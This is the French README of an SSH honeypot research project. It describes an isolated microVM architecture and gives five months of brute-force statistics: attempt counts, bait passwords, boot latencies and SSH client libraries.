









# Cinq mois de honeypot SSH : 530 860 tentatives, 698 microVM, et un botnet qui n'a rien appris depuis 2018

> **TL;DR** — J'ai exposé un faux serveur SSH sur Internet pendant 133 jours. Chaque attaquant qui devine un mot de passe obtient sa propre microVM QEMU jetable, sans accès réseau, avec un kernel maison. Résultat : 530 860 tentatives d'authentification, 6 677 adresses IP uniques, 12 939 sessions filmées, et une vision très concrète de ce à quoi ressemble vraiment le bruit de fond offensif d'Internet.

*English version: [README.md](README.md)*

---

## Sommaire

- [Pourquoi un honeypot](#pourquoi-un-honeypot)
- [L'architecture](#larchitecture)
- [Les chiffres bruts](#les-chiffres-bruts)
- [Vecteur d'accès initial : le mot de passe, rien d'autre](#vecteur-dacces-initial--le-mot-de-passe-rien-dautre)
- [Les logins les plus tentés](#les-logins-les-plus-tentés)
- [Les mots de passe les plus tentés](#les-mots-de-passe-les-plus-tentés)
- [D'où viennent-ils](#doù-viennent-ils)
- [Ce qu'ils tapent une fois dedans](#ce-quils-tapent-une-fois-dedans)
- [Les campagnes identifiées](#les-campagnes-identifiées)
- [Les payloads et leurs URLs](#les-payloads-et-leurs-urls)
- [Ce que j'en retiens](#ce-que-jen-retiens)

---

## Pourquoi un honeypot

L'idée de départ était simple : je voulais des données à moi. On lit beaucoup de rapports sur « les attaques SSH », en général basés sur des télémétries d'éditeurs qu'on ne peut pas vérifier. Je voulais voir de mes yeux ce qui frappe une IP quelconque, sans réputation particulière, sur un VPS lambda.

La contrainte, c'est qu'un honeypot SSH qui fait illusion doit donner un vrai shell. Et un vrai shell, c'est un vrai risque : si l'attaquant s'échappe, c'est ma machine qui part dans un botnet, et c'est moi qui me retrouve à envoyer du trafic malveillant. Les honeypots « à shell émulé » comme Cowrie contournent le problème en simulant les commandes, mais ça se détecte en trois commandes et les bots un peu sérieux décrochent.

D'où le compromis retenu : **un vrai shell, dans une vraie VM, jetable, sans réseau**.

## L'architecture



### Le serveur SSH

C'est un binaire Go unique, sans dépendance externe au runtime. Le module s'appelle `microvm`, organisé en `host/internal/{ssh,vm,db,web,bus,notify}`. Il s'appuie sur `golang.org/x/crypto/ssh` côté serveur, `gorilla/websocket` pour le replay live dans l'UI web, et SQLite pour la persistance.

Il tourne sous systemd en utilisateur dédié `honeypot`, membre du groupe `kvm` (nécessaire pour ouvrir `/dev/kvm`), avec `NoNewPrivileges=yes`, `ProtectSystem=strict`, `PrivateTmp=yes` et une liste blanche de chemins accessibles en écriture. Le binaire et les images sont en `ReadOnlyPaths`.

### Le piège d'authentification

C'est la partie la plus amusante du design. Le serveur n'accepte pas n'importe quel mot de passe — ce serait trop voyant, et un bot qui réussit du premier coup avec un mot de passe aléatoire comprend tout de suite. À la place, chaque attaquant se voit **assigner de façon déterministe** un mot de passe tiré d'une liste courte et crédible :

```json
["admin","password","123456","root","toor","ubuntu","debian","raspberry","alpine","changeme"]
```

L'attaquant doit « trouver » *son* mot de passe. Concrètement, il bruteforce, et au bout d'un certain nombre d'essais il tombe dessus. Du point de vue du bot, c'est indiscernable d'un vrai serveur mal configuré. Du point de vue des données, ça me donne un signal propre : le nombre de tentatives avant succès, et surtout la **liste complète** de ce qu'il a essayé avant.

Les logs du serveur sont assez parlants :

```
2026-09-21T11:43:22 auth user="root" src=101.37.117.27:56158: wrong password (expected "debian")
2026-09-21T11:45:22 auth user="root" src=101.37.117.27:33904: wrong password (expected "debian")
2026-09-21T11:52:22 auth user="root" src=101.37.117.27:39982: wrong password (expected "debian")
```

### La microVM

Une fois l'authentification réussie, le serveur instancie une VM. Pas un conteneur — une vraie VM matérielle avec KVM, parce que je ne voulais pas dépendre de l'isolation du kernel hôte face à un attaquant root.

C'est du `qemu-system-x86_64` avec le type de machine **`microvm`** : pas de BIOS, pas d'ACPI, pas de PCI, juste un bus MMIO minimal. Le shell est servi à l'attaquant en 39 ms médians (voir plus bas), et l'empreinte mémoire est ridicule. La VM reçoit :

| Composant | Choix | Pourquoi |
|---|---|---|
| Machine | `microvm` + `-enable-kvm` | démarrage quasi instantané, surface d'attaque QEMU minimale |
| Mémoire | 256 Mo | suffisant pour un shell, frustrant pour un mineur |
| Kernel | `vmlinux` custom 6.12.81 | compilé sans les pilotes inutiles, réduit la surface |
| Disque | `virtio-blk` sur overlay qcow2 | copy-on-write par attaquant |
| Console | `virtio-serial` | le shell, relayé vers la session SSH |
| Entropie | `virtio-rng` | sinon les outils crypto bloquent et ça sent le piège |
| **Réseau** | **aucun `-netdev`** | **c'est tout l'intérêt** |

> [!IMPORTANT]
> **Pas de réseau du tout.** Ce n'est pas un pare-feu restrictif, ce n'est pas un namespace réseau filtré : il n'y a tout simplement aucune interface réseau dans la VM. Un `wget` échoue au niveau du socket. C'est la garantie qu'aucun payload téléchargé ne peut s'exécuter ni se propager, même en cas de bug dans le reste de la chaîne.

Le coût de ce choix, c'est que je vois les *URLs* que les attaquants tentent de contacter, mais je ne récupère pas les binaires. C'est un arbitrage assumé : je préfère une chaîne dont je peux garantir l'innocuité plutôt que des échantillons de malware et une nuit d'insomnie.

### Pourquoi une microVM : le temps de démarrage

Le choix du type de machine `microvm` n'est pas une coquetterie : c'est la contrainte qui rend tout le reste possible.

Un honeypot qui donne un vrai shell dans une vraie VM doit démarrer cette VM **pendant la poignée de main SSH**, entre le moment où l'attaquant est authentifié et le moment où il doit voir son invite de commande. Si ce délai est perceptible, le piège se trahit : personne n'attend trois secondes après un `ssh root@…` réussi. Le budget disponible est donc celui de la latence réseau — quelques dizaines de millisecondes.

Le serveur journalise deux mesures distinctes à chaque session. Sur l'ensemble de la période :

| Mesure | n | min | médiane | p90 | p99 | max |
|---|---:|---:|---:|---:|---:|---:|
| QEMU prêt (`VM ready in`) | 1 043 | 50 ms | **51 ms** | 101 ms | 103 ms | 202 ms |
| Première sortie du shell (`VM first output after`) | 12 821 | 3 ms | **39 ms** | 61 ms | 140 ms | 391 ms |

La seconde ligne est celle qui compte, parce que c'est celle que l'attaquant perçoit : **le temps médian entre l'authentification et le premier octet de l'invite est de 39 ms**, et 90 % des sessions sont servies en moins de 61 ms.

> [!NOTE]
> Un mot sur la première ligne : les valeurs se concentrent sur 50/51 ms et 101/102 ms, ce qui trahit une boucle d'attente à pas de 50 ms côté superviseur. Ce chiffre est donc un **majorant quantifié**, pas une mesure fine du démarrage de QEMU. La métrique « première sortie », elle, est mesurée en continu et n'a pas cet artefact — c'est celle qu'il faut retenir.

Pour situer l'ordre de grandeur : **39 ms, c'est moins qu'un aller-retour réseau depuis l'Asie ou l'Amérique du Sud**, d'où vient la majorité du trafic observé. La VM finit de démarrer pendant que les paquets sont encore sur le câble. Du point de vue de l'attaquant, il n'y a pas de démarrage du tout — le shell est simplement là.

C'est ce que permet le type de machine `microvm` de QEMU : pas de BIOS à exécuter, pas d'énumération ACPI, pas de bus PCI à sonder, juste un bus MMIO minimal et trois périphériques virtio. Un démarrage de VM classique (SeaBIOS + ACPI + PCI) se compte en secondes, soit deux ordres de grandeur au-dessus, et aurait rendu le piège inutilisable.

### La persistance par attaquant

Chaque attaquant est identifié par une empreinte (IP + version du client SSH + username). Le stockage est une **chaîne qcow2 à trois niveaux**, et c'est le second pilier de la rapidité de démarrage :

```
honeypot.ext4                    ← rootfs de base, 512 Mo, partagé, immuable
   └── attacker-N.qcow2          ← état persistant de l'attaquant N (698 fichiers)
         └── session-XXXX.qcow2  ← écritures de la session en cours, éphémère
```

La VM n'écrit jamais dans un gros fichier : elle écrit dans un overlay de session vide, créé à la volée. À la fermeture propre de la session, cet overlay est fusionné dans l'overlay de l'attaquant — c'est le `vm[…] exited and committed` des logs, observé 975 fois sur 1 043 démarrages de VM.

Ce troisième niveau a deux vertus. D'abord la **rapidité** : créer un qcow2 vide est instantané, quelle que soit la taille de l'image en dessous. Ensuite la **sûreté** : si la VM plante, est tuée, ou fait quelque chose de destructeur, l'état persistant de l'attaquant n'est jamais corrompu — on jette simplement l'overlay de session. Les 64 overlays `session-*.qcow2` encore présents sur disque sont précisément ces sessions qui ne se sont pas terminées proprement.

Quand le même attaquant revient, il retrouve **sa** machine avec ses modifications. Ses crontabs, ses fichiers dans `/tmp`, sa clé SSH ajoutée à `authorized_keys`. C'est ce qui rend le piège crédible dans la durée, et ce qui permet d'observer les campagnes qui reviennent sur plusieurs mois — comme l'opérateur `kswpad`, revenu sur sa propre VM pendant quatre mois.

Les VM inactives sont récupérées après un délai d'inactivité (907 événements `idle for` dans les logs), ce qui borne la consommation mémoire de l'hôte : seules quelques VM tournent réellement à un instant donné.

698 VM ont été créées pour 6 677 attaquants : l'immense majorité ne dépasse jamais l'écran de login.

### L'enregistrement

Chaque session est enregistrée au format **asciinema v2**, octet par octet, avec horodatage à la microseconde, dans un blob SQLite. Les flux entrant (`"i"`, ce que tape l'attaquant) et sortant (`"o"`, ce que voit l'attaquant) sont séparés — ce qui permet de reconstruire exactement la frappe, y compris les fautes de frappe et les corrections.

```
[1.404094115,"i","c"]
[1.404901327,"o","c"]
[1.683720568,"i","u"]
[1.684692776,"o","u"]
[1.788702059,"i","r"]
[1.789876997,"o","r"]
[1.892635207,"i","l"]
```

Oui, c'est un attaquant en train de taper `curl`, lettre par lettre, dans une VM qui n'a pas de réseau. Au total : **736 Mo d'enregistrements** pour 12 939 sessions.

Le schéma SQLite est volontairement simple :

```sql
attackers      -- empreinte, IP, client SSH, mot de passe assigné, first/last seen
vms            -- overlay qcow2 associé à un attaquant
sessions       -- métadonnées + blob asciinema
login_attempts -- chaque essai, succès ou non
failed_logins  -- échecs bruts, y compris avant qu'un attaquant soit connu
passwords      -- déduplication des mots de passe tentés
```

---

## Les chiffres bruts

**Période observée : du 28 avril 2026 au 21 septembre 2026** — 133 jours d'activité.

| Métrique | Valeur |
|---|---:|
| Tentatives d'authentification | **530 860** |
| dont échecs | 529 207 |
| dont succès | 1 656 |
| Taux de succès | 0,31 % |
| Adresses IP uniques | **6 677** |
| Pays d'origine distincts | **138** |
| Sessions shell ouvertes | **12 939** |
| microVM créées | 698 |
| Mots de passe distincts tentés | **77 173** |
| Commandes distinctes observées | 1 855 |
| Moyenne de tentatives / jour | ~3 612 |
| Moyenne de sessions / jour | ~97 |

### Répartition dans le temps



Le pic de juin (5 773 sessions) correspond à une campagne massive et très concentrée : le 18 juin à lui seul totalise 653 sessions. Les journées les plus chargées en *tentatives* sont ailleurs — 31 309 le 6 mai, 30 634 le 8 septembre — ce qui montre que bruteforce de masse et exploitation de shell sont deux activités menées par des acteurs différents.

Côté horaire, la distribution est remarquablement plate : entre 275 et 969 sessions selon l'heure UTC, sans creux nocturne. C'est entièrement automatisé, personne ne dort.

---

## Vecteur d'accès initial : le mot de passe, rien d'autre

C'est le résultat le plus net de toute l'étude, et il mérite d'être énoncé seul :

> [!NOTE]
> **Sur 530 860 tentatives d'authentification, le nombre de tentatives par clé publique est de zéro. Absolument toutes les attaques observées sont du bruteforce de mot de passe.**

Pas une seule tentative d'exploitation de vulnérabilité dans le protocole SSH. Pas une tentative de downgrade d'algorithme. Pas de Terrapin, pas de `regreSSHion` (CVE-2024-6387), rien. Ce que fait Internet, 3 600 fois par jour, c'est essayer `root` / `123456`.

Autre point : le honeypot écoute sur le **port 2222**, pas sur le 22. Vérification faite dans les logs de démarrage, il n'a jamais été sur autre chose, et il n'y a aucune redirection NAT.

> [!WARNING]
> **Déplacer SSH sur un port non standard ne protège de rien.** Ce honeypot a encaissé 3 600 tentatives par jour sur le port 2222. Les scanners de masse balayent 2222, 2022, 22222 et 222 exactement comme le 22. Le « security through obscurity » sur le numéro de port réduit le bruit dans vos logs, pas le risque.

Le nombre de tentatives par attaquant est très asymétrique : médiane à 9 essais, 99ᵉ percentile à 723, et un record à **29 077 tentatives** depuis une seule adresse. La médiane basse correspond aux bots qui testent trois mots de passe et passent à la cible suivante ; la longue traîne, à des bruteforcers dédiés qui s'acharnent pendant des semaines.

### Les bibliothèques SSH utilisées : trois métiers distincts

Le champ `ssh_client` est la bannière que le client annonce dans le tout premier échange du protocole. Elle est déclarative — donc falsifiable — mais c'est précisément ce qui la rend intéressante : ce qu'un outil choisit d'annoncer est une signature en soi.

26 bannières distinctes ont été observées, qui se ramènent à **9 bibliothèques**. La répartition **par tentatives d'authentification** :



Mais la répartition **par sessions shell ouvertes** est presque l'inverse :



Cet écart n'est pas un détail statistique : **c'est la preuve que bruteforcer et exploiter sont deux métiers séparés, outillés différemment.**

| Bibliothèque | IP | Tentatives | % tent. | Succès | Tent./IP | Sessions | % sess. | Période |
|---|---:|---:|---:|---:|---:|---:|---:|---|
| **Go** (`x/crypto/ssh`) | 2 019 | 370 717 | 69,8 % | 554 | 184 | 1 804 | 13,9 % | 29/04 → 21/09 |
| **libssh** | 2 928 | 96 978 | 18,2 % | 728 | 33 | **11 103** | **85,8 %** | 29/04 → 21/09 |
| **OpenSSH** | 1 349 | 36 543 | 6,9 % | 100 | 27 | 12 | 0,1 % | 28/04 → 21/09 |
| **libssh2** | 261 | 25 178 | 4,7 % | 254 | 96 | **0** | 0 % | 29/04 → 21/09 |
| **russh** (Rust) | 67 | 1 128 | 0,2 % | 19 | 17 | 19 | 0,1 % | 29/04 → 17/09 |
| **SSH.NET** (C#) | 2 | 708 | 0,1 % | 0 | 354 | 0 | 0 % | 01/09 → 21/09 |
